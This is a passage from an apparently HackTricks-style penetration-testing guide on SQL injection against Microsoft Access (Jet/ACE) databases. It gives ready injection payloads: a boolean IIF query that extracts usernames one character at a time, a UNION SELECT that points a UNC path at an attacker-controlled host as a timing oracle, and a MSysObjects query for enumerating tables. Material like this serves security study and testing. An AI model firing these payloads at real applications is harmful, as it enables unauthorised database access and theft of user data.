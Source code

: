 ```
### Dumping data

We have already discussed the [[ms-access-sql-injection.md#chaining-equals-+-substring|**chaining equals technique**]] **to dump data from the current and other tables**. But there are other ways:

```sql
IIF((select mid(last(username),1,1) from (select top 10 username from users))='a',0,'ko')
```
```
In a nutshell, the query uses an “if-then” statement in order to trigger a “200 OK” in case of success or a “500 Internal Error” otherwise. Taking advantage of the TOP 10 operator, it is possible to select the first ten results. The subsequent usage of LAST allows to consider the 10th tuple only. On such value, using the MID operator, it is possible to perform a simple character comparison. Properly changing the index of MID and TOP, we can dump the content of the “username” field for all rows.

### Time-Based (Blind) Tricks

Jet/ACE SQL itself does **not** expose a native `SLEEP()` or `WAITFOR` function, so traditional time-based blind injections are limited. However, you can still introduce a measurable delay by forcing the engine to access a **network resource that is slow or does not answer**. Because the engine will try to open the file before returning the result, the HTTP response time reflects the round-trip latency to the attacker-controlled host.

```sql
' UNION SELECT 1 FROM SomeTable IN '\\10.10.14.3\doesnotexist\dummy.mdb'--
```
```
Point the UNC path to:

* a SMB share behind a high-latency link
* a host that drops the TCP handshake after `SYN-ACK`
* a firewall sinkhole

The extra seconds introduced by the remote lookup can be used as an **out-of-band timing oracle** for boolean conditions (e.g. pick a slow path only when the injected predicate is true). Microsoft documents the remote database behaviour and the associated registry kill-switch in KB5002984. 

### Other Interesting functions

- `Mid('admin',1,1)` get substring from position 1 length 1 (initial position is 1)
- `LEN('1234')` get length of string
- `ASC('A')` get ascii value of char
- `CHR(65)` get string from ascii value
- `IIF(1=1,'a','b')` if then
- `COUNT(*)` Count number of items

## Enumerating tables

From [[https://dataedo.com/kb/query/access/list-of-tables-in-the-database|**here**]] you can see a query to get tables names:

```sql
select MSysObjects.name
from MSysObjects
where
   MSysObjects.type In (1,4,6)
   and MSysObjects.name not like '~*'
   and MSysObjects.name not like 'MSys*'
order by MSysObjects.name
```
```
However, note that is very typical to find SQL Injections where you **don't have access to read the table `MSysObjects`**.

## FileSystem access
```